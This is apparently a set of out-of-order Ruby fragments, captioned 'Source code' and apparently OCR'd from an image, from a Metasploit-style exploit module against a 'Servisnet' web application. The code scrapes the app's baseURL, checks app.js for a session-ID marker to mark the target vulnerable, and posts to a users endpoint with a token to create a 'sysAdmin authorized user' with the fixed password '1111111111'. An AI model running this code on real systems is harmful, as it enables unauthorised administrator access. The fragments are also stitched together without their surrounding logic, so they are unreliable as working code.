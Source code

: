 register_options([
OptString.new('USERNAME',  [true, 'Servisnet Username']),
    OptString.new('PASSWORD',  [true, 'Servisnet Password']),
    OptString.new('TARGETURI',  [true, 'Base path for application', '/'])
])
if res && res.code == 200 && res.body =~ /baseURL/
  data = res.body
  #word = data.scan(/"#{string_to_split}"\] = "([\S\s]*?)"/)
  base_url = data.scan(/baseURL: '\/([\S\s]*?)'/)[0] 
  return base_url
else
  fail_with(Failure::NotVulnerable, 'baseURL not found!')
end
 res = send_request_cgi(
   {
   'method' => 'POST',
   'ctype'  => 'application/json',
   'uri' => normalize_uri(target_uri.path, app_path, 'users'),
   'headers' =>
     {
       'Authorization' => token
     },
   'data' => json_data
  })

  if res && res.code == 200 && res.body =~ /localhost/
    print_good("The sysAdmin authorized user has been successfully added.")
    print_status("Username: #{newuser}")
    print_status("Password: 1111111111")
  else
    fail_with(Failure::NotVulnerable, 'An error occurred while adding the user. Try again.')
  end
res = send_request_cgi({
# user.usersessionid check
  'uri'     => normalize_uri(target_uri.path, 'js', 'app.js'),
  'method'  => 'GET'
})     

if res && res.code == 200 && res.body =~ /user.usersessionid/
      return Exploit::CheckCode::Vulnerable
else
  fail_with(Failure::NotVulnerable, 'Target is not vulnerable.')
end
res = send_request_cgi({
# token check
  'uri'     => normalize_uri(target_uri.path, app_path, 'users', userid),
  'headers' =>
     {
       'Authorization' => token
     },
  'method'  => 'GET'
})     
